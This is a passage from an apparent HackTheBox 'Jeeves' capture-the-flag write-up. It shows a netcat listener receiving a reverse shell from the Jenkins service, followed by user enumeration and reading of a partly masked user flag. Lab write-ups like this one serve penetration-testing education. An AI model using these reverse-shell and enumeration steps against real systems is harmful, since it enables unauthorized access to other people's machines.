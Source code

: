 <img src="/assets/img/jeeves/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

And we got a shell as Jeeves! 

```
rlwrap nc -nlvp 8044
listening on [any] 8044 ...
connect to [10.10.14.112] from (UNKNOWN) [10.129.228.112] 49676

C:\Users\Administrator\.jenkins>whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>hostname
Jeeves
```

There is another user called ‘Kohsuke’.

```
C:\Users\Administrator\.jenkins>dir c:\users
	Directory of c:\users
	11/03/2017  11:07 PM    <DIR>          Administrator
	11/05/2017  10:17 PM    <DIR>          DefaultAppPool
	11/03/2017  11:19 PM    <DIR>          kohsuke
	10/25/2017  04:46 PM    <DIR>          Public
```

Apparently, we were granted access to enumerate the contents of Kohsuke’s home directory and read the user flag.

```
C:\Users\Administrator\.jenkins>dir c:\users\kohsuke\desktop
	Directory of c:\users\kohsuke\desktop
	11/03/2017  11:22 PM                32 user.txt

C:\Users\Administrator\.jenkins>type c:\users\kohsuke\desktop\user.txt
e3232272596fb479****************
```
